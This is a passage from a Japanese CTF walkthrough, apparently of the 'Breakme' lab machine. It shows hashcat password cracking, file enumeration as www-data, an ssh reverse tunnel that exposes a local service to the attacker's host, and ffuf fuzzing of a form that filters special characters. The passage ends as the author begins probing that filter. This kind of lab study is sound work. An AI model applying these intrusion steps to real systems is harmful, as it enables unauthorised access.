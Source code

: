 admin のパスワードはクラックできなかった。

```sh
.\hashcat.exe -m 400 hash.txt rockyou.txt
```

```sh
www-data@Breakme:/home/john$ find / -user john -type f -not -path "/proc/*" 2>/dev/null
/home/john/user1.txt
/home/john/.bash_logout
/home/john/.profile
/home/john/.bashrc

www-data@Breakme:/home/john$ find / -group john -type f -not -path "/proc/*" 2>/dev/null
/home/john/user1.txt
/home/john/.bash_logout
/home/john/.profile
/home/john/.bashrc
/var/lib/sudo/lectured/john

www-data@Breakme:/home/john$ ls -al /var/lib/sudo/lectured/john
-rw------- 1 root john 0 Jul 31  2023 /var/lib/sudo/lectured/john
```

john が 9999 ポートでリッスンしている。

```sh
ps aux

john         535  0.0  1.0 193936 20636 ?        Ss   00:41   0:00 /usr/bin/php -S 127.0.0.1:9999
```

9999 ポートをトンネリング

```sh
www-data@Breakme:/home$ ssh -N -R 9999:localhost:9999 tunnel@10.13.85.243
```

## 9999

IP アドレス、名前、ファイル名をチェックする画面。

- IP アドレスは数字の IP しか受け付けない。悪用できるアイデアが無い。
- 特殊文字は削除された上で存在チェックされている。（admin, bob などでチェックしても存在しないと返る）
- 特殊文字（ピリオド、アンダースコア含む）が含まれたら不正ファイル名とみなされている。

実在するユーザー名や IP アドレスを入れても通らず、いったい何をチェックしているのかよく分からない。

名前でファジングするがヒットなし。

```sh
$ ffuf -u http://localhost:9999 -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d 'cmd2=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: PHPSESSID=qdd2621tfa0o34c1v0v3rikusg' -fr 'not found'
```

特殊文字の削除仕様を確認
